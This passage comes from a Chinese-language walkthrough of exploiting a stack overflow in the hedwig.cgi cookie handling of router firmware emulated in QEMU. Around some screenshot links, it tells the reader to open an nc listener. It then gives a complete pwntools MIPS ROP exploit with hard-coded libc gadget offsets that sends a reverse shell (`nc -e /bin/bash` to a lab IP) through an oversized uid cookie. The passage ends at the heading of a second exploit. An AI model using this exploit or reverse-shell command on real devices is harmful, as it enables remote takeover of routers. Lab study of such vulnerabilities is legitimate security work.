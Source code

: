 

![image-20220427165450631](https://s2.loli.net/2022/04/28/LMU2PaEVfoJTvxW.png)

![image-20220427165439659](https://s2.loli.net/2022/04/28/obLT56DEte93JyX.png)

需要注意的是，得先执行`nc -lvnp 8888`开启监听，再打`payload`。

用`scp -r ./payload root@192.168.192.133:/root/squashfs-root`将`payload`文件传给`qemu`虚拟机后，在`run.sh`中直接用`echo "winmt=pwner"|/htdocs/web/hedwig.cgi`打就行了，但是我可能哪里出现了问题并没有打通，后续我发现是我的没把rop和rop+shellcode分别重命名成payload，不然run.sh是读不到rop或者rop+shellcode的payload,但是改过了传输过去运行还是有点问题……（好吧，我没找到解决办法）

![image-20220428091601021](https://s2.loli.net/2022/04/28/R3KWAiw7UH2QuIE.png)

这是大佬运行成功的截图

![img](https://s2.loli.net/2022/04/28/KdLqfh9aZEFlWBn.png)

### 方法二：直接发送http报文

第一种不行就试试第二种，我们之前开启`httpd`服务，就是为了这种打`exp`的方式，直接发送数据包给之前`http_conf`配置文件中设置的`192.168.188.133:1234`即可。

#### EXP1（纯rop）

```
from pwn import *
import requests
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
cmd = b'nc -e /bin/bash 192.168.188.133 8888'
 
libc_base = 0x77f34000
 
payload = b'a'*0x3cd
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*(4*7)
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18
payload += cmd
 
url = "http://192.168.192.134:1234/hedwig.cgi"
data = {"winmt" : "pwner"}
headers = {
    "Cookie"        : b"uid=" + payload,
    "Content-Type"  : "application/x-www-form-urlencoded",
    "Content-Length": "11"
}
res = requests.post(url = url, headers = headers, data = data)
print(res)

```

#### EXP2（ROP+shellcode）
